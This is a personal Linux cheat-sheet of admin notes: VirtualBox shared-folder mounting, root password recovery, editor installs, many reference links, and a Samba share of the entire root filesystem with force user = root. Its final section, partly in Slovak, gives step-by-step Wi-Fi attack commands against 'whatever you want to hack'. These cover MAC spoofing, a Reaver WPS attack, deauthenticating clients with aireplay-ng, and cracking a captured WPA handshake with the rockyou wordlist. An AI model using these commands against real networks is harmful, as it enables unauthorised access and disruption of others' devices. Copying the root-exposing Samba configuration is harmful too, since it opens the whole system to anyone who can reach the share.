 # Mount vbox shared folder on linux
Do not do: mount -t vboxsf -o uid=1000,gid=1000 VMs-shared /mnt
- /mnt remains empty

If I try to do this after: root@fhsw-web:/mnt# mount -t vboxsf -o uid=1000,gid=1000 VMs-shared /mnt/VMs-shared
It will throw: mount: /mnt/VMs-shared: mount point does not exist.

Check current mounts: root@fhsw-web:/mnt# mount
Try to unmount: root@fhsw-web:/# umount VMs-shared
Throws: /mnt: target is busy.
Need to exit that folder: root@fhsw-web:/mnt# cd ..

Repeat: root@fhsw-web:/# umount VMs-shared

Do properly: root@fhsw-web:/# mount -t vboxsf -o uid=1000,gid=1000 VMs-shared /mnt/VMs-shared

# Install .deb file with dpkg
sudo dpkg -i ~/Downloads/*.deb

# Make root prompt red
""" PS1='${debian_chroot:+($debian_chroot)}\[\033[01;31m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ ' """

http://www.mogilowski.net/lang/en-us/2011/12/29/color-bash-prompt-on-ubuntu-and-debian/
Edit ”/root/.bashrc” and change ”force_color_prompt=yes” like for your user

#Linux root password recovery
- Boot into recovery mode (via advanced options in GRUB)
- select root
- type the normal password
- mount -rw -o remount /
root@ubuntu:~# passwd jorge
Enter new UNIX password:
Retype new UNIX password:
passwd: password updated successfully
root@ubuntu:~# reboot

Normal login.

# Links 
http://www.server-world.info/en/note?os=CentOS_7&p=x&f=2
https://www.samba.org/samba/docs/man/Samba-HOWTO-Collection/install.html#id2551914
http://www.djvuviewer.com/
http://askubuntu.com/questions/187243/how-to-mount-a-samba-share-at-boot-time
http://www.ghacks.net/2009/04/19/auto-mounting-a-samba-share-in-linux/
wiki.centos.org/TipsAndTricks/WindowsShares#head-9d5b00e8e14089e8970de5f7a047616a32feb376
http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO-2.html#ss2.1
https://www.linkedin.com/pulse/network-automation-via-python-mostafa-hassan
https://pynet.twb-tech.com
http://packetpushers.net/intro-python-network-automation/
https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
https://unix.stackexchange.com/questions/92715/can-i-transfer-files-using-ssh
https://www.howtoforge.com/tutorial/clamav-ubuntu/
https://askubuntu.com/questions/909273/clamav-error-var-log-clamav-freshclam-log-is-locked-by-another-process
https://www.clamav.net/documents/installing-clamav#debian
https://www.pcworld.com/article/208720/how_to_fix_a_windows_infection_using_linux.html
https://www.howtoforge.com/community/threads/debian-vi-vim-color-syntax.13715/
https://wiki.debian.org/iptables
http://forums.justlinux.com/showthread.php?70876-iptables-basics
https://www.linuxquestions.org/questions/linux-security-4/failed-ssh-login-attempts-340366/?perpage=15
https://www.linuxquestions.org/questions/linux-security-4/ssh-tricks-any-way-to-block-failed-attempts-by-ip-address-342359/
https://www.bitvise.com/getting-started-hardening-ssh-server
https://security.stackexchange.com/questions/21027/invalid-users-trying-to-log-in-to-my-server
https://www.raspberrypi.org/documentation/linux/usage/users.md
https://lists.blocklist.de/lists/ssh.txt
https://raspberrypi.stackexchange.com/questions/29399/strange-ip-connected-to-ssh
https://stackoverflow.com/questions/15190391/ssh-directory-not-being-created
https://wiki.ubuntu.com/SystemdForUpstartUsers
https://bugs.kde.org/show_bug.cgi?id=339866
https://askubuntu.com/questions/307/how-can-ppas-be-removed
https://en.wikipedia.org/wiki/FreeBSD
https://en.wikipedia.org/wiki/PfSense
http://www.dslreports.com/forum/r31134636-Routers-PfSense-or-EdgeRouter
http://www.dslreports.com/forum/network
https://stackoverflow.com/questions/7005713/how-to-compile-a-c-program-in-linux
https://askubuntu.com/questions/61408/what-is-a-command-to-compile-and-run-c-programs
www.tecmint.com/best-linux-ide-editors-source-code-editors/
http://xmodulo.com/good-ide-for-c-cpp-linux.html
https://stackoverflow.com/questions/24109/c-ide-for-linux
www.alexeyshmalko.com/2014/using-vim-as-c-cpp-ide/

# Free BSD stuff
https://www.freebsd.org/doc/handbook/users-synopsis.html
https://www.freebsd.org/doc/en_US.ISO8859-1/articles/new-users/adding-a-user.html
https://www.unixmen.com/freebsd-vs-openbsd/
https://www.freebsd.org/doc/handbook/bsdinstall-post.html
https://serverfault.com/questions/58363/my-unqualified-host-name-foo-bar-unknown-problem
https://www.freebsd.org/doc/en_US.ISO8859-1/articles/linux-users/shells.html
https://www.freebsd.org/doc/en_US.ISO8859-1/articles/linux-users/article.html
https://www.freebsd.org/doc/handbook/shells.html
https://www.cyberciti.biz/faq/freebsd-bash-installation/
https://www.cyberciti.biz/faq/freebsd-install-sudo-command/
https://www.disk-partition.com/gpt-mbr/mbr-vs-gpt-1004.html


# Notepad alternatives for Linux
https://itsfoss.com/notepad-alternatives-for-linux/

###Notepadqq
sudo add-apt-repository ppa:notepadqq-team/notepadqq
sudo apt-get update
sudo apt-get install notepadqq

###Geany 
sudo apt-get install geany scite

###Sublime
sudo add-apt-repository ppa:webupd8team/sublime-text-2
sudo apt-get update
sudo apt-get install sublime-text

# Correction of Share already in use 
The network folder specified is currently mapped using a different user name and password", when trying to connect to a drive remotely

net use /delete \\server\share

# Samba sharing root folder
[root$]
path = /
create mask = 0755
force user = root
browsable = yes

# IRC client
https://irssi.org/download/

# Janciho stary github
https://github.com/yafw/curses-vbox-manager

# wlan 802.11 tech
airmon-ng start wlan0
airodump-ng wlan0
vyberes bssid toho coho chces hacknut
airodump-ng -c tocojepodpismenomCH --bssid bssid mon0
to mas na to ked chces zhadzovat konkretne zariadenia
ked mas zkopirovane to bssid
reaver -i mon0 -b bssid -vv -c topodCH

Z wordlistu....heslo musi byt len slovo: 
http://www.youtube.com/watch?v=AlE6U3iQMTk
1) airmon-ng start wlan0
2) ifconfig mon0 down
3) macchanger -r mon0
4) ifconfig mon0 up
5) airodump-ng mon0
6) airodump-ng -c 5 -w WPACRACK --bssid FF:17:6A:EA:70:FF --ivs mon0
7) aireplay-ng -0 100 -e testwlan mon0
8) aircrack-ng -w /usr/share/wordlists/rockyou.txt WPACRACK-01.ivs

If aireplay-ng say that the channel is not correct
1) ifconfig mon0 down
2) iwconfig mon0 channel 6
3) ifconfig mon0 up
